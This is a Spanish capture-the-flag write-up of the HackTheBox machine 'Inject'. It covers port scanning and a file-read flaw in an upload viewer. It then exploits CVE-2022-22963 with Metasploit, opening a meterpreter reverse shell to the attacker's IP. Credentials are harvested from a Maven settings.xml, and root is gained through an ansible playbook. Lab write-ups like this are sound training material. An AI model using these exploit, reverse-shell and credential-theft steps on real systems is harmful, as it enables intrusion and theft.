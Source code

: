 ```yaml
---
title: Inject HackTheBox
published: true
---
```


- Ip atacante - 10.10.14.83
- Ip victima - 10.10.11.204

## Nmap

```bash
❯ sudo nmap -Pn -sS -n --min-rate 5000 -p- 10.10.11.204 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-18 12:40 EDT
Nmap scan report for 10.10.11.204
Host is up (0.11s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Entrando en la pagina, veo un log in y sign up, sin embargo no estan funcionando y recien las estan implementando.

De la misma manera existe un directorio ``/upload`` entrando intente enviar un archivo .php pero no me dejo y me dice que solo puedo enviar imagenes.

Al enviar una imagen de un leon e interceptar el view image con burp veo que puedo ver archivos de la computadora

![](/img/Inject/inject1.png)

De esta imagen vemos un posible usuario, el cual es phil

Aqui dentro encontramos a frank tambien, viendo los directorios de los usuarios no encontramos nada. Felizmente el listado de los directorios funciona muy bien. Aqui dejo un ejemplo

![](/img/Inject/inject2.png)
![](/img/Inject/inject3.png)
![](/img/Inject/inject4.png)

Buscando esa tecnologia vemos que es vulnerable a RCE https://spring.io/security/cve-2022-22963

## Metasploit

```bash
❯ msfconsole

msf6 > search spring cloud

Matching Modules
================

   #  Name                                                     Disclosure Date  Rank       Check  Description
   -  ----                                                     ---------------  ----       -----  -----------
   0  auxiliary/scanner/http/springcloud_directory_traversal   2020-06-01       normal     No     Directory Traversal in Spring Cloud Config Server
   1  auxiliary/scanner/http/springcloud_traversal             2019-04-17       normal     No     Spring Cloud Config Server Directory Traversal
   2  exploit/multi/http/spring_cloud_function_spel_injection  2022-03-29       excellent  Yes    Spring Cloud Function SpEL Injection
   3  exploit/linux/http/spring_cloud_gateway_rce              2022-01-26       excellent  Yes    Spring Cloud Gateway Remote Code Execution
```

Primero proble con el exploit numero 3 pero no funciono, asi que fui con el numero 2

```bash
msf6 exploit(linux/http/spring_cloud_gateway_rce) > use 2
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp

msf6 exploit(multi/http/spring_cloud_function_spel_injection) > set rhosts 10.10.11.204
rhosts => 10.10.11.204
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > set lhost 10.10.14.83
lhost => 10.10.14.83
msf6 exploit(multi/http/spring_cloud_function_spel_injection) > exploit

[*] Started reverse TCP handler on 10.10.14.83:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Sending stage (3045348 bytes) to 10.10.11.204
[*] Meterpreter session 1 opened (10.10.14.83:4444 -> 10.10.11.204:57008) at 2023-03-18 13:39:03 -0400

meterpreter > shell
Process 36596 created.
Channel 1 created.
id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
python3 -c 'import pty;pty.spawn("/bin/bash")' 
frank@inject:~$ export TERM=xterm SHELL=bash
```
Ya con eso podemos trabajar mejor
Viendo la carpeta de frank vemos que existe un directorio ``.m2``
## Pivoting to Phil

```bash
frank@inject:~$ ls -la
ls -la
total 28
drwxr-xr-x 5 frank frank 4096 Feb  1 18:38 .
drwxr-xr-x 4 root  root  4096 Feb  1 18:38 ..
lrwxrwxrwx 1 root  root     9 Jan 24 13:57 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1 18:38 .cache
drwxr-xr-x 3 frank frank 4096 Feb  1 18:38 .local
drwx------ 2 frank frank 4096 Feb  1 18:38 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile
frank@inject:~$ cd .m2
cd .m2
frank@inject:~/.m2$ ls
ls
settings.xml
frank@inject:~/.m2$ cat settings.xml
cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
                       
      <password>*********ovesto*********</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

Encontramos las credenciales de phil
pivoteamos al usuario phil

```bash
frank@inject:/home/phil$ su phil                      
su phil
Password: *********ovesto*********

phil@inject:~$ id
id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```
### user flag

```bash
phil@inject:~$ cat user.txt
cat user.txt
*********************f2191fe6f20
```
## Escalacion de privilegios
```bash
phil@inject:~$ ls -la 
ls -la
total 152
drwxr-xr-x 5 phil phil   4096 Mar 18 18:09 .
drwxr-xr-x 4 root root   4096 Feb  1 18:38 ..
drwxrwxr-x 3 phil phil   4096 Mar 18 17:31 .ansible
lrwxrwxrwx 1 root root      9 Feb  1 07:40 .bash_history -> /dev/null
-rw-r--r-- 1 phil phil   3771 Feb 25  2020 .bashrc
drwx------ 2 phil phil   4096 Feb  1 18:38 .cache
drwx------ 3 phil phil   4096 Mar 18 16:54 .gnupg
-rw-rw-r-- 1 phil phil 115775 Mar  8 17:04 linpeas.sh
-rw-r--r-- 1 phil phil    807 Feb 25  2020 .profile
-rw-rw-r-- 1 phil phil     85 Mar 18 17:40 shell.yml
-rw-r----- 1 root phil     33 Mar 18 13:47 user.txt
```
```bash
phil@inject:~$ cat shell.yml
cat shell.yml
- hosts: localhost
  tasks:
    - name: RShell
      command: sudo bash /tmp/root.sh
```
```bash
phil@inject:~$ bash -p
bash -p
bash-5.0# whoami
whoami
root
```
### root flag
```bash
bash-5.0# cd /root
cd /root
bash-5.0# ls
ls
playbook_1.yml	root.txt
bash-5.0# cat root.txt
cat root.txt
*********************6d54aa59ce9
```